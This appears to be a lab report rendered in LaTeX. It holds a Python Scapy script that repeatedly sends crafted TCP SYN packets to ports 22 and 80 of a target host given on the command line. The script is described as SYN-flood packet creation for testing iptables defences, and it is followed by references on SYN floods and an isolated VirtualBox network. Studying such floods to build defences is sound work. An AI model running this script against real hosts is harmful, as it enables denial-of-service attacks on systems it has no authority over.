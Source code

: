 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}

#! /usr/bin/env python
# Name : Subodh Pachghare
# CyberSpace Name : HaX0R (Cyberninja)
# Website : www.thesubodh.com
# Description : SYN Flood Packet creation for iptables prevention solution
import sys
from scapy.all import *
#conf.verb=0
print "Field Values of packet sent"
p=IP(dst=sys.argv[1],id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
ls(p)
print "Sending Packets in 0.3 second intervals for timeout of 4 sec"
ans,unans=srloop(p,inter=0.3,retry=2,timeout=4)
print "Summary of answered & unanswered packets"
ans.summary()
unans.summary()
print "source port flags in response"
#for s,r in ans:
# print r.sprintf("%TCP.sport% \t %TCP.flags%")
ans.make\_table(lambda(s,r): (s.dst, s.dport, r.sprintf("%IP.id% \t %IP.ttl% \t %TCP.flags%")))

\end{lstlisting}

\section{Conclusion}\index{}


\clearpage

\section{References and bibliography}\index{}

\url{https://www.owasp.org/index.php/Denial\_of\_Service}\break
\url{https://resources.sei.cmu.edu/asset\_files/WhitePaper/1996\_019\_001\_496172.pdf#page=123}\break
\url{http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.206.5378&rep=rep1&type=pdf}\break
\url{https://en.wikipedia.org/wiki/SYN\_flood}\break
\url{https://scapy.readthedocs.io/en/latest/introduction.html#about-scapy}\break
\url{https://www.virtualbox.org/manual/ch06.html#network\_hostonly}\break
\url{https://condor.depaul.edu/glancast/443class/docs/vbox\_host-only\_setup.html}\break

\printindex
\end{document}
